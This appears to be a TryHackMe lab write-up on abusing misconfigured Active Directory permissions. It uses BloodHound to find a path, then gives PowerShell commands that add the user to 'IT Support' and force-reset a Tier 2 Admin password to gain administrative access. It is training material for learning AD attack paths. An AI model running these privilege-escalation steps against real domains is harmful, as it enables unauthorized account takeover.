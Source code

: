 # Exploiting Permission Delegation

## Exploiting ACEs

Access Control Entries (ACEs) populate Discretionary Access Control Lists (DACLs). These ACLs determine the 
permissions that certain AD objects have over others. Almost any AD object can be secured with ACEs, which then 
describe the allowed and denied permissions that any other AD object has against the target object.

Certain ACEs can be very dangerous if misconfigured:

* ForceChangePassword: Set a user's password without knowing their current password.
* AddMembers: Add users (including oneself), groups, or computers to a target group.
* GenericAll: Complete control over an object, including the ability to change the user's password, register an SPN 
or add an AD object to the target group.
* GenericWrite: Update any non-protected parameters of our target object. For example, could update the scriptPath 
parameter, which would set a user's logon script.
* WriteOwner:  Update the owner of the target object. Could make ourselves the owner, allowing us to gain additional 
permissions over the object.
* WriteDACL: We have the ability to write new ACEs to the target object's DACL. For example, could write an ACE that 
grants our account full control over the target object.
* AllExtendedRights: Perform any action associated with extended AD rights against the target object. For example, the 
ability to force change a user's password.

## Bloodhound

1. Sharphound has already been executed. The data is in the .zip task file.
2. Launch `neo4j` and `bloodhound` and import the data.

```text
sudo neo4j console
sudo bloodhound --no-sandbox
```

3. Drag the .zip file into the Bloodhound window. 
4. Search for our initial account retrieved from http://distributor.za.tryhackme.loc/creds

## Privilege Escalation

Look at the info in the Node Info tab, it is pretty obvious that the initial access user does not have many privileges. 
We have the ability to RDP into THMWRK1, but this will only provide us with low-privileged access.

1. Compromise the Tier 2 Admins group (administrative privileges on all workstations).
2. Ask Bloodhound if there is perhaps a road that we can follow to compromise this group (Add your user account as 
the start position and the Tier 2 Admins group as the end position).

An administrator has misconfigured the Permission Delegation of the IT Support group by providing the Domain Users 
group with the AddMembers ACE. This means that any member of the Domain Users group (including our account) can add 
accounts to the IT Support Group. Furthermore, Bloodhound shows that the IT Support Group has the ForceChangePassword 
ACE for the Tier 2 Admins group members. This is not really a misconfiguration since Tier 2 admins are not that 
sensitive, but it provides a very potent attack path when combined with the initial misconfiguration.

| ![THM Bloodhound path](../../_static/images/exploit-ad-bloodhound1.png)
|:--:|
| Add your user account as the start position and the Tier 2 Admins group as the end position. <br>Right-click `GenericWrite` and choose Help to read more information about the privilege escalation path. |

## Add AD account to the IT Support group

RDP to `thmwrk1.za.tryhackme.loc` and open a PowerShell terminal.

    xfreerdp /v:thmwrk1.za.tryhackme.loc /u:'max.smith' /p:'<given password>'

Use the Add-ADGroupMember PowerShell cmdlet from the AD-RSAT toolset.

```text
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\max.smith> $user = Get-ADUser -Identity 'max.smith'
PS C:\Users\max.smith> $group = Get-ADGroup -Identity 'IT Support'
PS C:\Users\max.smith> Add-ADGroupMember -Identity $group -Members $user
PS C:\Users\max.smith> Get-ADGroupMember -Identity $group
...
distinguishedName : CN=max.smith,OU=IT,OU=People,DC=za,DC=tryhackme,DC=loc
name              : max.smith
objectClass       : user
objectGUID        : f0cd5ecd-6a42-4eff-8015-071e1dc3747b
SamAccountName    : max.smith
SID               : S-1-5-21-3885271727-2693558621-2658995185-1142
...
```

## Force a new password on a T2 Admin

    PS C:\Users\max.smith> Get-ADGroupMember -Identity "Tier 2 Admins"

Pick one close to the bottom, or randomly.

```text
$password = ConvertTo-SecureString 'Password123' -AsPlainText -Force
PS C:\Users\max.smith> $t2admin = Get-ADGroupMember -Identity 'Tier 2 Admins' | Get-Random -Count 1
PS C:\Users\max.smith> $t2admin.Name
t2_caroline.dawson
PS C:\Users\max.smith> Set-ADAccountPassword -Identity $t2admin -Reset -NewPassword $password
Set-ADAccountPassword : Access is denied
At line:1 char:1
+ Set-ADAccountPassword -Identity $t2admin -Reset -NewPassword $passwor ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (CN=t2_caroline....ryhackme,DC=loc:ADAccount) [Set-ADAccountPassword],
    UnauthorizedAccessException
    + FullyQualifiedErrorId : ActiveDirectoryCmdlet:System.UnauthorizedAccessException,Microsoft.ActiveDirectory.Manag
   ement.Commands.SetADAccountPassword
```

Note: If you get an `Access Denied` error, your permissions have not yet propagated through the domain. This can 
take up to 10 minutes. The best approach is to terminate the SSH or RDP session, take a quick break, and then 
reauthenticate and try again.

```text
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\max.smith> $t2admin = Get-ADGroupMember -Identity 'Tier 2 Admins' | Get-Random -Count 1
PS C:\Users\max.smith> $t2admin.Name
t2_alan.riley
PS C:\Users\max.smith> $password = ConvertTo-SecureString 'Password123' -AsPlainText -Force
PS C:\Users\max.smith> Set-ADAccountPassword -Identity $t2admin -Reset -NewPassword $password
PS C:\Users\max.smith>
```

Authenticate to THMWRK1 using this target account with its new password. You currently have administrative access to 
this workstation. The flag is on the Desktop of the Administrator user on THMWRK1 (flag1.txt).
